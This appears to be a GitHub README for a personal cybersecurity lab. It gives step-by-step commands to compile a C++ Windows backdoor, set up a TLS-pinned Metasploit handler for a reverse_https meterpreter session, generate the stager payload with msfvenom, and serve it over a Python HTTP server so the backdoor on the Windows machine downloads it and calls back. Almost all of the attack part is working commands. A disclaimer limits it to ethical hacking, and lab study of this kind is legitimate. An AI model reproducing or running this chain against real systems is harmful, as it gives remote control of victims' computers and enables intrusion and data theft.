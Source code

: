 # Cyber Security
Cyber Security Lab Experiences by Fabio Felgueiras

Use this for ethical hacking only.

In this example we will use a Kali Linux 2023.2 and Windows 10

Tools used:
   - OpenSSL To create the certificate
   - msfconsole to create the listener ( receive the comunication from the windows machine )
   - msfvenom to create the payload file
   - python to create the http server ( to deliver the payload )
   - c++ to create the windows .exe  ( the backdoor.cpp )


Windows 10 Backdoor Creation

In Kali >

1- Download

    git clone https://github.com/Blive77/cybersecurity/
    cd cybersecurity
    
2- Compile

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
      
3- Create custom SSL/TLS certificate 
    https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html

    openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
    cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
    rm -f www.example.com.key  www.example.com.crt
    
      
4- Config the msfconsole Listener

    msfconsole
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_https
    set LHOST 0.0.0.0
    set LPORT 3333
    set HandlerSSLCert www.example.com.pem
    set StagerVerifySSLCert true
    set HandlerSSLCert /home/kali/cybersecurity/www.example.com.pem
    exploit
   
    
5- Create the Payload with msfvenom in Kali linux

   In my case:
   - Host IP= 192.168.235.132  
   - Host Port= 3333
   - Path To cert file= /home/kali/cybersecurity/www.example.com.pem
      
    msfvenom -p windows/x64/meterpreter/reverse_https lhost=(Host IP) lport=(Host Port) HandlerSSLCert=(Path To cert file) StagerVerifySSLCert=true -f raw > load.bin
    
   
6- Setup the http webserver for Payload deliver (important to do this in the same folder the payload was created)

    python -m http.server
    
In Windows >
    
1- Execute the File created in point (2) "backDoorTest.exe"
    
    backDoorTest.exe ( can be execute with paramters IP, Port and PayLoad File ) 
 
